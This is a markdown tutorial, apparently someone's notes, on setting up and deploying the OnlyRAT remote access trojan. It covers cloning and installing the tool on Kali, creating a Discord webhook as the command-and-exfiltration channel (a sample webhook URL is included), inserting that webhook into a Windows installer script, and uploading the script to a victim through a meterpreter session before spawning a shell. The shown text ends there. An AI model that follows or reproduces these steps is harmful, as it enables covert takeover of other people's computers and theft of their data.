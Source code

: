 ```yaml
---
sticker: emoji//1f400
---
```


# SETTING UP AND DEPLOYING A RAT

In the current tutorial, we will embark on an engaging endeavor by configuring a Remote Access Trojan (RAT) on a designated server. Specifically, we will employ [OnlyRAT](https://github.com/CosmodiumCS/MK01-OnlyRAT), an all-encompassing software created by **CosmodiumCS** and hosted on GitHub, which assumes the role of a robust instrumentality tailored for the remote management and administration of Windows-based computer systems. 

Once installed, it provides remote administrative access to the targeted system. This access is facilitated through a **Python** console on the attacker's personal computer, allowing for a wide array of operations and payloads to be executed from a remote location.

> A video of how to set this up can be found here: - [Link](https://youtu.be/jMmLx3Cwy2I)

![[Pasted image 20231114220422.png|500]]

On a **Kali Linux** Machine 

```bash
git clone https://github.com/CosmodiumCS/MK01-OnlyRAT.git ; cd MK01-OnlyRAT/ ; bash install.sh
```
> This will download the repo onto your system then changed directory into it and install it

After the RAT has installed it will delete the install folder. you can run the script by: - 
```bash
onlyrat
```

now to begin we first need to make a discord server, create a text channel in it called OnlyRAT

![[Pasted image 20231114232903.png|300]]

- right click the channel and click **edit channel**

![[Pasted image 20231114233004.png]]

- click the **integration** tab and then click on **Webhooks**

![[Pasted image 20231114233055.png]]
- create a new **Webhook**
- name it onlyRAT
- Copy Webhook URL

```
https://discord.com/api/webhooks/1174129539874570380/5k-zTZdznoGbZVWVMRLgzzbGJjnUXOT8Vok3n9CRwMATCTCBw_IhS3Hb2Dzbu3PtkbSL
```
> Webhook will look something like this. 

go back to the OnlyRAT repo, and click installers, when you are in their download the one that says **from-github.cmd**

open **from-github.cmd** file

![[Pasted image 20231114233946.png]]
> Where is says DISCORDWEBHOOK replace with the Webhook that was created earlier 
>> Save the file

Go back to a meterpreter shell, start one up again if one is no active

To ensure the correct location, employ the **lcd** command to navigate to the directory where the **from-github.cmd** file is situated. For further confirmation, you may also use the **lpwd** command to verify the current directory and the **lls** command to ensure the presence of the desired file within that directory.

> remember to also change the directory where it is uploaded to on the target machien with cd, ls and pwd
>> I like it being in the root dir so C:\

```bash
upload from-github.cmd
```

- after the file has successfully uploaded enter the following 
```bash
shell
```


